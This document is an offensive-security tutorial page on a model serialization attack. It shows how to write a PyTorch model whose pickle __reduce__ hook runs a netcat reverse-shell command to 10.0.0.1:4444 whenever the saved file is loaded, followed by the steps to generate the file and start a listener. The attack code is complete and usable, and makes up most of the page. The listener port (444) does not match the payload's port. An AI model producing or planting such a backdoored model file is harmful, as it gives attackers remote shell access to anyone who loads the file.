 ```yaml
---
title: Create Malicious ML Model
description: 
tags: 
    - Machine Learning
refs:
date: 2024-07-17
draft: false
---
```


## Model Serialization Attack

### 1. Install Dependencies

It requires `torch` so install it:

```bash
# Create a virtual environment to avoid pulluting the host environment.
python3 -m venv myvenv
pip3 install torch
```

### 2. Create Python Script To Generate Malicious Model

Now create a Python script that generates our malicious ML model. This model executes OS command when it is evaluated.

```python
# generate_model.py
import torch
import torch.nn as nn
import os

class EvilModel(nn.Module):
	def __init__(self):
		super(EvilModel, self).__init__()
		self.dense = nn.Linear(10, 50)
	
	def forward(self, evil):
		return self.dense(evil)
	
	def __reduce__(self):
		# Inject OS command.
		cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f"
		return os.system, (cmd,)

# Save the model
evil_model = EvilModel()
torch.save(evil_model, 'evil.pth')
```

### 3. Run Python Script

Now execute this Python script as below:

```bash
python3 generate_model.py
```

After that, our model named `evil.pth` will be generated.

### 4. Compromise Target System using the Model

If our malicious model is loaded/trained/evaluated in the target system, the OS command is executed and we can get reverse shell, so we need to wait for incoming connection by staring a listener in attack machine:

```bash
nc -lvnp 444
```